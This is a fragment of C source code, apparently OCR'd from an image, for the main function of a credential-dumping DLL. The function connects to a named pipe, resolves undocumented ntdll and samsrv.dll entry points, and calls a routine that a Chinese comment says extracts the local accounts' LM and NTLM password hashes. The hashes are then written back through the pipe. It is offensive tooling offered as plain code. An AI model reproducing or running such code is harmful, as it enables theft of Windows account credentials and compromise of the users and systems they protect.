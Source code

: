 DWORD __cdecl getlmhashdll_main ( char *pipename )
{
    DWORD   ret = EXIT_FAILURE;

    outbuflen   = 1024;
    outbuf      = ( char * )HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, outbuflen );
    if ( NULL == outbuf )
    {
        goto getlmhashdll_main_exit;
    }
    if ( FALSE == WaitNamedPipe( pipename, NMPWAIT_USE_DEFAULT_WAIT ) )
    {
        goto getlmhashdll_main_exit;
    }
    outfile     = CreateFile
                  (
                      pipename,
                      GENERIC_READ | GENERIC_WRITE,
                      0,
                      NULL,
                      OPEN_EXISTING,
                      0,
                      NULL
                  );
    if ( INVALID_HANDLE_VALUE == outfile )
    {
        goto getlmhashdll_main_exit;
    }
    if ( FALSE == LocateNtdllEntry() )
    {
        goto getlmhashdll_main_exit;
    }
    if ( FALSE == LocateSamsrvEntry() )
    {
        goto getlmhashdll_main_exit;
    }
    /*
     * 利用samsrv.dll引出的Undocumented Win32 API获取本机帐号的LM Hash、
     * NTLM Hash
     */
    getlmhash();
    ret         = EXIT_SUCCESS;

getlmhashdll_main_exit:

    if ( NULL != samsrv )
    {
        FreeLibrary( samsrv );
        samsrv  = NULL;
    }
    if ( INVALID_HANDLE_VALUE != outfile )
    {
        CloseHandle( outfile );
        outfile = INVALID_HANDLE_VALUE;
    }
    if ( NULL != outbuf )
    {
        HeapFree( GetProcessHeap(), 0, outbuf );
        outbuf  = NULL;
    }
    outbuflen   = 0;
    return( ret );
}  /* end of getlmhashdll_main */
